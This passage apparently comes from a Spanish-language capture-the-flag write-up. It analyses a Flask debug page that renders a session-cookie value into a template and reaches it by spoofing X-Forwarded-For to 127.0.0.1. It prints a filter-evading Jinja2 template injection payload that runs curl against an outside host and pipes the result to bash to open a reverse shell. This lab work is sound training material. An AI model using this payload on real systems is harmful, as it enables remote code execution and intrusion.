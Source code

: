 - Observamos que otra vez se utiliza la funcion “illegal_chars_check” sobre la clave debug de la cookie de sesion asignada al navegador web del usuario. Ademas, se verifica si la cookie de sesion consta de valores no nulos en las claves “debug” y “user_password”. Por ultimo, se renderiza un template que ha sido definido en un string, pero antes de renderizarlo, mediante el metodo “replace” se reemplazara el string “DEBUG HERE” por el valor de la clave “debug” almacenada en la cookie de sesion del usuario.

Despues del todo el analisis, logramos saber que se realiza un inyectado del valor ingresado en el parametro “debug” en la plantilla “template” que se renderiza al acceder al recurso “debugresult” con la dirrecion IP
127.0.0.1 en la cabecera “X-Forwarded-For” en nuestra solicitud GET. Ahora escogeremos un payload adecuado que no contenga los caracteres `‘;&%` con el fin de ingresarlo al campo “debug” del formulario “Debugger” y poder ejecutar una reverse shell.

```
Payload Exitoso: { { request|attr("application")| attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")| attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")| attr("popen")("curl
http://10.8.123.194/reverse.sh |bash")|attr("read")() } }

```
![](/assets/images/Secure/image055.png)

![](/assets/images/Secure/image057.png)
